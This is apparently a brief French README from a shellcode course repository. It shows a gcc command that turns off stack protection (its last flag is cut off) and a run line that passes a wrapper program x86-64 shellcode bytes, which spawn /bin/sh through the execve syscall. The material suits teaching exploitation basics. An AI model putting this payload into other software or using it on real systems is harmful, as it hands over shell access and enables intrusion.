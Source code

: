 # Shellcode
Dépo du cours de ShellCode

<strong>GUIDE D'UTILISATION : </strong>

<strong>Pour compiler : </strong>
      gcc wrapper.c -o wrapper -fno-stack-protector -z 

<strong>Pour executer :</strong>
./wrapper $(python2 -c 'print("\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")'
